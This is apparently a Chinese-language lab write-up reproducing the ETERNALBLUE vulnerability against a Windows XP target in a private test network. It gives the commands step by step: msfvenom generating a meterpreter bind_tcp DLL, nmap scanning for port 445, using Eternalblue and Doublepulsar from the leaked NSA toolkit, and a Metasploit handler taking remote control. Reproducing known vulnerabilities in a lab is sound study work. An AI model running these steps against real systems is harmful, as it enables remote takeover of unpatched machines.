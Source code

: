 具体见参考资料5

# **漏洞复现**

1. 环境搭建

   | 主机类型 |       OS       |      IP      |
   | :--: | :------------: | :----------: |
   | 攻击机1 |    win2003     | 10.10.10.130 |
   | 攻击机2 | kali linux 2.0 | 10.10.10.128 |
   |  靶机  |   winXP x86    | 10.10.10.129 |

2. 工具准备

- 解压NSA工具包中的windows文件夹到攻击机1的C:\目录下（只要不是中文目录皆可）;

- 在攻击机1安装:

- [python-2.6.6.msi**](http://link.zhihu.com/?target=https%3A//www.python.org/download/releases/2.6.6/)

- [pywin32-221.win32-py2.6.exe**](http://link.zhihu.com/?target=https%3A//sourceforge.net/projects/pywin32/files/pywin32/Build%2520221/pywin32-221.win32-py2.6.exe/download)

- 在攻击机2先生成用于回连的dll

  ```
  msfvenom -p windows/meterpreter/bind_tcp LPORT=5555 -f dll > x86bind.dll

  ```

  3.扫描开启445端口的活跃主机并探测操作系统

  ```
  nmap -Pn -p445 -O 10.10.10.0/24
  nmap -Pn -p445 -O -iL ip.txt
  ```

  4.攻击机1开始利用ETERNALBLUE攻击

  ```
  python fb.py 
  use Eternalblue ...

  ```

  5.利用Doublepulsar注入dll

  ```
  use Doublepulsar

  ```

  6.kali攻击机利用msf回连控制主机5555端口

  ```
  use exploit/multi/handler
  set payload windows/meterpreter/bind_tcp
  set LPORT 5555
  set RHOST XXX.XXX.XXX.XXX
  exploit
  ```
